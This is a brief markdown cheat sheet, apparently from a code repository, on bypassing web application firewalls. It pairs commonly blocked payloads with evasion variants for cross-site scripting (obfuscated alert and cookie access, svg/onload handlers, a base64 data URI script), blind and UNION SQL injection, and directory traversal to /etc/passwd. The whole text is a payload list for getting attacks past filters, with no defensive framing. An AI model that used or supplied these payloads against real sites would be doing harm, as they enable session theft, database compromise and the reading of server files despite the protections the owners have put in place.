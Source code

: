 
## Web Application Firewal - WAF

ByPass WAFs
```
|-| = instead of using this
|→| = the best choice is
```

### Cross-Site Scripting:
```
- alert('xss') 
- alert(1)
→ prompt('xss') 
→ prompt(8)
→ confirm('xss')
→ confirm(8)
→ alert(/xss/.source)
→ window[/alert/.source](8)

- alert(document.cookie) 
→ with(document)alert(cookie) 
→ alert(document['cookie'])
→ alert(document[/cookie/.source])
→ alert(document[/coo/.source+kie/.source])

- <img src=x onerror=alert(1);>
→ <svg/onload=alert(1)>
→ <video src=x onerror=alert(1);>
→ <audio src=x onerror=alert(1);>

- javascript:alert(document.cookie)
→ data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### Blind SQL Injection
```
- 'or 1=1           '
- 'or 6=6           '
→ 'or 0x47=0x47     '
- or char(32)=''
→ or 6 is not null
```

### SQL Injection
```
- UNION SELECT
→ UNION ALL SELECT
```

### Directory Traversal
```
- /etc/passwd
→ /too/../etc/far/../passwd
→ /etc//passwd
→ /etc/ignore/../passwd
→ /etc/passwd........
```
